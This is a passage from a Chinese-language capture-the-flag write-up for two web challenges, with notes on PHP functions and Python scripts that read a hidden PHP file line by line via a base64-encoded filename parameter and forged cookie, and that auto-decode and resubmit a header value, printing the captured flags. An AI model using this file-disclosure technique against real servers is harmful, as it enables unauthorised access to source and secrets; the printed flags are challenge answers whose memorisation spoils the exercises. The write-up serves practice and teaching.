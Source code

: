 ```php
}
?>
```

- 判断cookie必须满足margin=margin才能访问keys.php**，别忘了编码再传参、line要赋值**
- [intval](https://www.runoob.com/php/php-intval-function.html)——获取变量的整数值，**空的 array 返回 0，非空的 array 返回 1。**
- in_array(value,array,type)查看A是否在B的值里
- file()—函数把整个文件读入一个数组中。返回数组，**数组中的每个单元都是文件中相应的一行，包括换行符在内。** **如果失败，则返回 false。**

payload:

```python
import requests 
import re 		

for i in range(10):
    url = 'http://114.67.246.176:19772/index.php?line='+str(i)+'&filename=a2V5cy5waHA='
    data={'margin':'margin'}
    a = requests.get(url,cookies=data)
    hang=a.text
    print(hang)
 
#返回
<?php $key="flag{24019342d42d1024c75c9ebfe3520d5a}"; ?>
```





### 你得快点

##### 考点：burp抓包、python脚本

![image-20210509152215287](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202401041428998.png)

1. 发现flag，base64二次解码，发现不是flag，而且每次发送都会产生不一样的flag，提示post value，则想到用python，session提交post 

   ```
   跑的还不错，给你flag吧: MTM0NTcz
   二次解码
   134573
   ```

2. payload

   ```python
   import requests #引入request库
   import re 		#引入re库
   import base64
   
   url = 'http://114.67.246.176:10957'
   s = requests.session()  #用session会话保持表达式
   retuen = s.get(url)
   
   f=retuen.headers['flag']
   f1=str(base64.b64decode(f),'utf-8')  #此时f1有两部分，跑的还不错，给你flag吧: NTYyNDk2，我们要对后半部分继续解码
   #print(f1)
   f2=f1.split(' ')[1]   #获得后半部分的base64
   f2=base64.b64decode(f2)   #需二次解码，否则显示再快点
   print(f2)
   data={'margin':f2}
   result=s.post(url,data=data)
   print(result.text)
   
   //返回：
   b'806742'
   flag{c1d81e45e46b547e52afd4f6280b2127}
   ```